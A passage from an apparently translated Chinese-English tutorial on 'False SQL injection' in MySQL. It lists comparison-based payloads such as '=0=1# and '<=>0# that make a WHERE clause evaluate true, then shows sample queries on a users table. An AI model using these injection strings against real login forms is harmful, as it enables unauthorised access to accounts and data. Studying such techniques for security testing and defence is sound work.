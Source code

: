 你不必只使用单一的数字。你可以像下面一样使用两个数字攻击。

```
1'<99#

```

Comparison operation 0=1 will be 0, the following operation result is true because of id=''=0(0=1). 比较操作“0=1”的结果将会是0，又因为id=''=0，所以以下的操作结果是真。

```
'=0=1#

```

此外，还可以使用一些比较动作能使得两边的值相等。

```
'<=>0#

```

像这样，如果你使用比较操作，你可以用额外的方式进行攻击。

```
'=0=1=1=1=1=1#
'=1<>1#
'<>1#
1'<>99999#
'!=2!=3!=4#

```

0x02 不同的SQL操作
=====

现在，你将开始理解False SQL injection。以下为MySQ操作，不是攻击语句。

```
mySQL> select * from users;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.01 sec)

```

毫无疑问，它显示了所有表中的返回内容。 以下是当你不输入任何值在id字段时的返回内容。

```
mySQL> select * from users where id='';
Empty set (0.00 sec)

```
